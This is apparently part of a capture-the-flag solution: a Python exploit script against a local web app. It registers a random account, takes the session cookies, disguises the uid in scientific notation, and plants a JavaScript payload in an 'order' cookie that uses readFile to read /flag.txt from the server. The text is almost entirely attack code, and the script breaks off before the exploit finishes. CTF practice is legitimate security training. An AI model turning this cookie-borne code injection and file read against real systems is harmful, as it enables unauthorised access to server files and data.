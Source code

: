 A python solve script will look like this:

```python
from time import sleep

import requests
import threading
import uuid

base_url = 'http://localhost:8000/'

register_url = base_url + 'register'

username = str(uuid.uuid4())
username = username.replace('-', '')

register_data = {
    'username': username,
    'password': '12345678'
}

r = requests.post(url=register_url, json=register_data)

if r.json()['error']:
    print("Registration failed!")
    exit()

login_url = base_url + 'login'

login_data = register_data

r = requests.post(url=login_url, json=login_data)

if r.json()['error']:
    print("Login failed!")
    exit()

cookies = r.cookies.get_dict()
passwd = cookies['passwd']
uid = cookies['uid']


def e_formatter(n):
    a = '{:.4E}'.format(float(n))
    e = a.find('E')
    return '0.{}{}{}{:02d}'.format(a[0], a[2:e], a[e:e + 2], abs(int(a[e + 1:]) * 1 + 1))


uid = e_formatter(uid)

checkout_url = base_url + 'checkout'


def create_fd():
    order = 'a = _=> { return readFile`/flag.txt` + a`` }, a``'

    COOKIES = {
        'order': order,
        'passwd': passwd,
        'uid': uid
    }

    r = requests.get(url=checkout_url, cookies=COOKIES)

```